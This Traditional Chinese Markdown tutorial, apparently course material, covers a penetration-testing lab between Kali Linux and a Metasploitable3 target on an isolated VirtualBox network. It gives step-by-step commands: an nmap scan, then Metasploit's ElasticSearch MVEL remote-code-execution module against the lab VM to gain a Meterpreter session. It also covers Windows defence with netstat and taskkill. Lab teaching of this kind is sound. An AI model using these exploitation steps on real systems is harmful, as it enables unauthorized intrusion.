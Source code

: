 # 攻防情境說明
![攻防情境說明](scenario.png)

- 攻擊機 Kali Linux
- 靶機 metasploitable3 

# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks

![A1.png](A1.png)

# 環境設定2:
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路
![m3_2.png](m3_2.png)
- 兩台機器都可以ping 到對方 
![m3_3.png](m3_3.png)

# 攻防實戰(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4
![nmap1.png](nmap1.png)
- 步驟2:啟動metasploit== > msfconsole
![metasploit_1.png](metasploit_1.png)
- 步驟3:search elastic
![metasploit_2.png](metasploit_2.png)
```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce
![metasploit_3.png](metasploit_3.png)
- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options
![metasploit_4.png](metasploit_4.png)
- 步驟6:進行攻擊 ==> exploit 或者 run
![metasploit_5.png](metasploit_5.png)
- 步驟7:攻擊成功  
![metasploit_6.png](metasploit_6.png)
- 步驟8:進入到post-exploitation階段  ==> [Meterpreter](meterpreter.md)
![metasploit_7.png](metasploit_7.png)

# 攻防實戰(2)Windows防禦
- 網路連線偵測 ==> netstat
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
    
![netstat](netstat.JPG)

- 終結 惡意網路連線 ==> 小小抱怨 : 教科書及linux 都是用`process(行程)` 微軟硬是要新創`工作(Task)` 
  - `工作`管理員(`Task` Manager)
    - [Windows 10 開啟「 工作管理員 」的11種方法](https://walker-a.com/archives/3436) 
  - [tasklist](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist):顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
  - [taskkill](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill) 獵殺執行中的程式(結束一個或多個工作或處理序)
    - [微軟官方說明](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill)
    - taskkill /PID XXXX /F
      - /F 參數強制進程終止，這對於許多不想關閉的討厭任務很有用。 

## 更多Metasploitable3解題
- [Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
- [Metasploitable 3 (Linux) Walkthrough: An Exploitation Guide](https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/)
- Hacking Articles
  - [Manual Penetration Testing in Metasploitable 3](https://www.hackingarticles.in/manual-penetration-testing-metasploitable-3/)
  - [Exploitation of Metasploitable 3 using Glassfish Service](https://www.hackingarticles.in/exploitation-metasploitable-3-using-glassfish-service/)
  - [Penetration Testing in Metasploitable 3 with SMB and Tomcat](https://www.hackingarticles.in/penetration-testing-metasploitable-3-smb-tomcat/)
- [Metasploitable 3 实战渗透测试](https://blog.csdn.net/weixin_51167520/article/details/114745286)

# 延伸學習
- [滲透測試](PT.md)
- [更多Kali linux 學習](Kali202304.md)
- [靶機(metasploitable3)](metasploitable3.md)
- [基本Windows技術](BasicWindows.md)
- [Windows 指令(Windows Commands)](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands)
  - Windows/Linux常用網路指令
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
 
- 後續研讀
  - [Log4J 漏洞分析與Penetration Testing](Log4J.md)
  - 滲透測試專題 Hacking Articles
    - [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
    - [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
- 更多紅藍攻防
  - Red team 滲透測試靶機
    - [Hack The Box: Hacking Training For The Best](https://www.hackthebox.com/)
    - [TryHackMe | Cyber Security Training](https://tryhackme.com/)
    - [VulnHub| Vulnerable By Design](https://www.vulnhub.com/) 
  - Blue Team
    - [LetsDefend - Blue Team Training](https://www.letsdefend.io/) 


![Mimikatz](Mimikatz.png)
